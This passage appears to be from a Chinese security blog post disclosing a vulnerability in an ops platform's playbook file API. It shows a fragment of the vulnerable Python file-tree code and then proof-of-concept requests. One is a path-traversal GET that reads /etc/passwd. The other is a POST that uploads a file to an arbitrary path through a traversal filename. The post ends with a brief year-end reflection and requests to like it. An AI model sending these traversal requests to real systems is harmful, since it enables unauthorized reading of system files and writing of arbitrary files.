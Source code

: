 ```
                    node['open'] = True
                nodes.append(node)
            for f in files:
                node = {
                    "name": f,
                    "title": f,
                    "iconSkin": 'file',
                    "id": os.path.join(relative_path, f) if not os.path.join(relative_path, f).startswith(
                        '.') else f,
                    "isParent": False,
                    "open": False,
                    "pId": relative_path if not relative_path.startswith('.') else 'root',
                    "temp": False
                }
                nodes.append(node)
        return nodes

```  
## POC  
  
首先需要到后台**工作台—作业中心—模板管理—创建paybook**，然后根据生成的作业uuid执行以下POC  
  
**任意文件下载**  
  
http://172.16.0.133/api/v1/ops/playbook/<uuid:pk>/file/?key=../../../../../../../etc/passwd  
  
**任意文件上传**  
```
POST http://172.16.0.133/api/v1/ops/playbook/<uuid:pk>/file/

name=../../../../../../../test.txt&content=success&key=&is_directory=
```  
  
  
生活笔记  
        
  
2024年是过的最快的一年。站在时间的交汇点，有的人踌躇满志，有的人逡巡不前。  
  
这一年，对每个人来说，都说一段不可复制的旅程。  
  
   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/FODKWahS5qJoibL8gvEgeDrbTWIic7QVlv51C1dg73L0P6tX3M9cbhYOq8PK0icq780CvHkkibj2Slpbia5pgkdawow/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/FODKWahS5qJoibL8gvEgeDrbTWIic7QVlv51C1dg73L0P6tX3M9cbhYOq8PK0icq780CvHkkibj2Slpbia5pgkdawow/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**点赞鼓励一下**  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/kw2nrMk65sdm2h1H7HL0PuJZltDnjKlKJKwx2SOicHZ6ciceNaAhompextcznbssviakCvDN8S2yJxhDVDuZhxSFw/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/VB9lZ9dN4bkDNJnc9icsykSuljwJFM0rhmUgmpMHFhqk0G7x9fLgibbVttEo1XaWq2pyOlFx57g4fb9s0UWywlbQ/640?&wx_fmt=png "")  
  
点个   
「在看」 你最好看  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IGB4cLafvu5hIW27PLqjTA93j5tMViajxyG2ZkKFQBjWqcE7yVibP18iaTWPh574Eos6nkE9aiaGj8guWNwibmlLVQg/640?&wx_fmt=png "")  
  
  
